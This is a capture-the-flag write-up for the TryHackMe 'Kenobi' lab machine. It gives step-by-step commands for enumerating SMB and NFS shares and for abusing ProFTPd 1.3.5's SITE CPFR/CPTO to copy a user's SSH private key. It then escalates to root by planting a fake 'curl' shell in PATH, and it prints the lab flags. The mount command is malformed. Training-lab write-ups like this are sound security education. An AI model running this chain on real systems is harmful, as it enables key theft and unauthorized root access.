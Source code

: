 **THM - Kenobi (EN)**

**Author:** adi7312

## **Task 1 - Checking open ports**


We start scanning ports with command below:

    nmap -sV 10.10.157.59


We conducted scanning of host's services versions, 
it is not required in this task, but it may help us in future for example when we will be looking for exploit for particular version of particular service.


![](p/1.png)


As we can see, there are 7 open ports, now we can answer the first question.


![](p/2.png)


## **Task 2 - Enumerating Samba for shares**

Authors of this task gave us an advice to enumerate a machine for SMB shares. We can do that with provided by author command:

    nmap -p 445 --script=smb-enum-shares.nse,smb-enum-users.nse 10.10.157.59


![](p/3.png)


We found 3 SMB shares, so we can answer the question.


![](p/4.png)


We can connect to machines network share using below command:

    smbclient //10.10.157.59/anonymous

We can list the files on the share with `ls` command. As a result we can see one file named *log.txt*.


![](p/5.png)

We can answer the next question.


![](p/6.png)


Now we download the *log.txt* file using command (during the task, the vulnerable machine stopped working and I needed to restart it, so now we have different IP address):

    smbget -R smb://10.10.5.253/anonymous

Next we want to read this file, we use command: `cat log.txt`. Now we are looking for an information about open FTP port. *log.txt* file contains also information about Kenobi when he generated his SSH key.


![](p/7.png)


The FTP port is 21, we can answer the next question.


![](p/8.png)



As author suggets, we start enumerationg RPC service (111 port), our objective is to determine the name of enumerated mount, to do this we use command below:

    nmap -p 111 --script=nfs-ls,nfs-statfs,nfs-showmount 10.10.5.253


![](p/9.png)


As we can see "/var" is the mount that we are looking for, so we can answer the last question in this task


![](p/10.png)


## **Task 3 - Gain initial access with ProFtpd**

Our first task is to determine what is the version of ProFtpd on vulnerable system, we can step back to [first task](#task-1---checking-open-ports) and see that ProFtpd version is: `1.3.5` and this answer for 1st question. 


![](p/11.png)

Now we need to determine the number of exploits for ProFTPd (1.3.5), to do this we can use *searchsploit*.

    searchsploit proftpd

As we can see for 1.3.5 version there 4 exploits. 


![](p/12.png)


![](p/13.png)





Next step is to connect to target machine using the command below (again, IP of target machine had changed):

    nc 10.10.247.173 21


From *log.txt* we know that the service is running as the Kenobi user. So now we will try to copy the Kenobi's private key (from /home to mount /var), to do this, we write following commands:

    SITE CPFR /home/kenobi/.ssh/id_rsa
    SITE CPTO /var/tmp/id_rsa

Now we will try to mount the /var/tmp to our local machine:

    mkdir /mnt/kenobiNFS
    mount 10.10.247.173p:/var/mnt/kenobiNFS
    ls -la /mnt/kenobiNFS


![](p/14.png)


As we can see, we mounted /var successfuly, so now we have access to Kenobi's private key. Let's move to /mnt/kenobiNFS/tmp directory using `cd /mnt/kenobiNFS/tmp` and we will try to connect to target machine using ssh.

    ssh -i id_rsa kenobi@10.10.247.173


![](p/15.png)


Machine has been compromised, now we can read the user's flag.


![](p/16.png)


`Flag: d0b0f3f53b6caa532a83915e19224899`.


![](p/17.png)


## **Task 4- Privilege Escalation with Path Variable Manipulation**

Firstly, we need to check files which have SUID bit. We can do this with this command:

    find / -perm -u=s -type f 2>/dev/null


![](p/18.png)


There is one element that stands out and this is: `/usr/bin/menu` (this also answer to first question in this task). When we run this command we can see 3 intersted options, we can check status, kernel version of OS and network configs.


![](p/19.png)


Answers to first two questions:

![](p/20.png)


We can check what strings the `menu` command contains we can do that with command below:

    strings /usr/bin/menu

![](p/21.png)


Consequently we got some output, if you look at screen above, you can see that `menu` contains strings `curl, uname, ifconfig`. So if menu contains strings like `curl` we can use this to escalate our privileges. Before that we need to do couple things.


Firstly we need to create new `curl` and save `/bin/sh` to it, we can accomplish it with this command:

    echo /bin/sh > curl

Now we need to give it appropriate permissions, use command below:

    chmod 777 curl

Now we need to put its location to our PATH:

    export PATH=/tmp:$PATH

Now we lunch `menu`:

    /usr/bin/menu

We choose options first, write `id` and we got a root! Now we can read the final flag, use `cat /root/root.txt`.

`Final flag: 177b3cd8562289f37382721c28381f02`

![](p/22.png)

